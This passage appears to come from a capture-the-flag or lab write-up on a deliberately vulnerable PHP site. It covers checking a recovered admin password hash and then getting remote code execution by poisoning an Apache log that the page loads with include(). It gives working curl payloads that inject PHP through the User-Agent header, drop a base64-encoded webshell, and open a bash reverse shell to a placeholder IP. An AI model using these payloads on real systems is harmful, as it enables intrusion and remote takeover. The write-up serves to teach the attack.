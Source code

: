 We get as output:

```
email: jojo@jojocorp.fun
password: $2y$10$qziMqCs/G2aRcl0nSAbZzuXNXSvuSYgBpg7S.BKh9u2pe5MWnmo6G
```

We can quickly check that the found password matches the one that we found in `config.php`:
```php
php > $pass = 'j0j0_p455w0rdZ';
php > $hash = '$2y$10$qziMqCs/G2aRcl0nSAbZzuXNXSvuSYgBpg7S.BKh9u2pe5MWnmo6G';
php > echo password_verify($pass, $hash);
1
```

So we found email and password for the admin user. We can now login using its account.

#### Step 4: RCE using apache logs

Once in the admin section, we can access new functionalities, which are account deletion, message deletion, and accessing the logs.

By reading the source code, we can see this line:
```php
<?php
	if (isset($_POST['log'])) {
		include('/var/log/apache2/jojo_log/access_jojo.log');
	}
?>
```

So, the developer made a mistake by using `include` instead of `file_get_contents` in order to add the logs into the web page. This means that any PHP code in the log file will be executed during inclusion. Therefore, we can make a malicious request to the server including PHP code, and then load the logs in the page, and we will then be able to perform remote code execution.
```bash
curl http://localhost/ -H "User-Agent: <?php system('whoami'); ?>"
```
Then in the logs we can see:

![RCE POC](imgs/rce_poc.png)

Therefore, we can execute RCE. 
We can then write a webshell, and from that get a full reverse shell:
```bash
curl -H "User-Agent: <?php system('echo PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+ | base64 -d > /var/www/jojo_website/html/shell.php'); ?>" http://localhost/
```

Then after loading the logs, we can get a shell:

```bash
curl http://localhost/shell.php?cmd=%2Fbin%2Fbash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F<IP>%2F1234%200%3E%261%22
```
